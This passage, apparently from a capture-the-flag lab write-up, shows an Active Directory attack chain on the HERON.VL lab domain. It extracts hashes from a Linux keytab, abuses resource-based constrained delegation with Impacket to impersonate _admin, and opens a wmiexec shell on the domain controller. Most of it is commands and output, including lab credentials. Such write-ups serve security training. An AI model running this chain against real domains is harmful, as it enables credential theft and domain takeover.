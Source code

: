 As we have root on the linux box and its domain joined we can extract the ntlm hash from the `/etc/krb5.keytab` file then configure RBCD and request a ticket. 

```
python3 /opt/keytabextract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HERON.VL
        SERVICE PRINCIPAL : FRAJMP$/
        NTLM HASH : 6f55b3b443ef192c804b2ae98e8254f7
        AES-256 HASH : 7be44e62e24ba5f4a5024c185ade0cd3056b600bb9c69f11da3050dd586130e7
        AES-128 HASH : dcaaea0cdc4475eee9bf78e6a6cbd0cd

proxychains -q rbcd.py -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -dc-ip MUCDC.heron.vl -action write heron.vl/adm_prju:ayDMWV929N9wAiB4 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FRAJMP$ can now impersonate users on MUCDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FRAJMP$      (S-1-5-21-1568358163-2901064146-3316491674-27101)

proxychains -q getST.py -spn 'cifs/MUCDC' -impersonate _admin -dc-ip MUCDC.heron.vl -hashes :6f55b3b443ef192c804b2ae98e8254f7 heron.vl/'FRAJMP$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating _admin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in _admin@cifs_MUCDC@HERON.VL.ccache
```

Then logging in with wmiexec:
```
KRB5CCNAME=$(pwd)/_admin@cifs_MUCDC@HERON.VL.ccache proxychains -q wmiexec.py heron.vl/_admin@MUCDC -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
heron\_admin

C:\>hostname
mucdc
```
